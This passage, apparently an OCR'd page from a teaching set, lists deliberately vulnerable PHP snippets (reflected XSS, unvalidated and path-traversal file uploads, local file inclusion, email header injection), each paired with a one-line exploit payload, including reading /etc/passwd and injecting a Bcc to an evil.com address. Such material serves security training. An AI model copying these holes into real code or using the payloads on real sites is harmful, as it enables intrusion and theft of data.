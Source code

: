 ```php
if (isset($_GET['search'])) {
    echo "Results for " . $_GET['search'];
    // ... display results ...
}
// Exploit: search=<svg/onload=alert(1)>
```

---

## 5. File Upload - No Validation, No Rename

```php
if (isset($_FILES['file'])) {
    move_uploaded_file($_FILES['file']['tmp_name'], "uploads/" . $_FILES['file']['name']);
    echo "File uploaded!";
}
// Exploit: shell.php
```

---

## 6. Image Upload - MIME Type Spoof, Path Traversal

```php
if (isset($_FILES['pic'])) {
    $dest = "images/" . $_FILES['pic']['name'];
    move_uploaded_file($_FILES['pic']['tmp_name'], $dest);
}
// Exploit: name = ../../shell.php
```

---

## 7. File Viewer - LFI

```php
if (isset($_GET['page'])) {
    include("pages/" . $_GET['page'] . ".php");
}
// Exploit: page=../../../../etc/passwd%00
```

---

## 8. Contact Form - Email Header Injection

```php
if (isset($_POST['email'])) {
    $headers = "From: " . $_POST['email'];
    mail("admin@example.com", "Contact", $_POST['msg'], $headers);
}
// Exploit: email=attacker@evil.com%0ABcc:stealer@evil.com
```

---